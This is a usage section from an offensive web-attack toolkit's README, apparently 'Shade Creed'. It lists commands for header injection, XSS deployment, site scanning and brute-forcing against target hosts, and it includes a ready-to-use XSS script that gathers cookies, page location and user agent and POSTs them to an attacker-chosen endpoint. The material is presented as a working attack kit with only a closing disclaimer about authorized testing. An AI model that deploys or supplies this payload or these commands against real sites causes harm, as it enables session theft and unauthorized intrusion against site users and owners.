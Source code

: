 **Run the main framework:**
```bash
shadecreed -u https://example.com
```

**Inject custom header using POST:**
```bash
shadecreed-inject -u https://target.com/api -m POST -s headers.json -r true
```

**Deploy custom XSS script:**
```bash
shadecreed-xss --url https://target.com/page --script payload.js --endpoint https://mycustomendpoint.com/log
```

**Test custom endpoint:**
```bash
shadecreed-test <Custom_Endpoint>
```

**Scan a site for vulnerabilities:**
```bash
shadecreed-scan --url https://victim.com
```

**Perform custom bruteforce:**
```bash
shadecreed-brute --url https://myhome/admin --redirect true
```

---

## 🕷️ Custom XSS Template
You can craft custom XSS scripts using the `{{endpoint}}` placeholder which will be replaced during deployment:

```javascript
<script>
  var data = {
    cookies: document.cookie,
    location: window.location.href,
    userAgent: navigator.userAgent
  };
  fetch("{{endpoint}}", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(data)
  });
</script>
```

Save the above as `payload.js` and pass it using the `--script` flag.

---

## ⚠️ Disclaimer
Shade Creed is built for **educational** and **authorized security testing** only. The developer is not responsible for any misuse or illegal activity.

---

Goodluck Pentesting! ✨

